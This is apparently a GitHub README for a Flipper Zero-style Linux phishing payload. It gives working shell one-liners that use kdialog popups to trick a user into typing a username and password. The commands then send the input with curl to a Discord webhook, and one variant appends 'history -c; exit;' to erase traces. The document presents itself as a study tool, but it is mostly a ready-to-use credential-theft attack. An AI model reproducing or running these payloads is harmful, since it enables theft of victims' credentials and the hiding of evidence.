 
# Standard Phishing Payload Using kdialog - Linux ✅

A script used to exfiltrate some input by a popup phishing based on linux systems using kdialog.

**Category**: Phishing

<div align=center>

<img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/logo-repository-2_0.gif" width="600" /><br><img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/DISCLAIMER.png" width="600" />

</div>

## Description

A script used to exfiltrate some input by a popup phishing based on linux systems using kdialog.

Opens a shell, get the data by a popup, send the input to a Discord webhook (or whatever you want to use for the exfiltration).

## Getting Started

### Dependencies

* Internet Connection for the Exfiltration

### Settings

* Set the Discord webhook
* Set the payload as you want

### cURL Command

With this payload you can send a post message using cURL shell command line to the webhook or whatever you choose for the exfiltration. You should replace the tag *\<message>* with the user input.

- `curl -H "Content-Type: application/json" -X POST -d "{\"content\": \"$(<message>)\"}" $WEBHOOK_URL);`

### kdialog - Popup command

KDialog can be used to show nice dialog boxes from shell scripts. You can't acquire multiple input in one popup, so you should use multiple popup. You can set the title, the message, the input type and so and so on...

- Simple message popup: `kdialog --title "<replace_with_your_title>" --msgbox "<replace_with_your_message>"; `
- Plaintext input popup (i.e. Username): `kdialog --title "<input_title>" --inputbox "<input_type_title>";`
- Hiddentext input popup (i.e. Password): `kdialog --title "<input_title>" --password "<input_type_title>" --default "password";`

### The Payload

The payload will merge the cURL command with the kdialog popup output (so the user input) as the following command...

```shell
$(curl -H "Content-Type: application/json" -X POST -d "{\"content\": \"$(kdialog --title "Popup Title" --msgbox "Insert your username and password for go on"; kdialog --title "Insert your Username" --inputbox "Username"; kdialog --title "Insert your Password" --password "Password" --default "password";)\"}" $WEBHOOK_URL);
```

You can put into the payload something that will clear the last shell history closing the shell at the end of the execution, adding this line `history -c; exit;`

```shell
$(curl -H "Content-Type: application/json" -X POST -d "{\"content\": \"$(kdialog --title "Popup Title" --msgbox "Insert your username and password for go on"; kdialog --title "Insert your Username" --inputbox "Username"; kdialog --title "Insert your Password" --password "Password" --default "password";)\"}" $WEBHOOK_URL); history -c; exit;
```

### FAQs

- Why put the entire payload in one line?
Generally it is recommended to divide the various steps at different times by dividing each command with some DELAY, in this case it is not recommended because phishing-type cyber attacks often tend to take a long time. How can you tell how long a user should take to enter their data? What if he doesn't remember his email? It is important to consider the slow factor, which, in theory, can take really long and in any case cannot be dynamically predicted.

- Why is used the 'cyber-attack' word?
This payload is intended to be a working tool for performing cybersecurity analysis and is not intended to harm malicious users in any way. This term is used for simplicity in speaking but is really meant to be a study tool that can be worked on.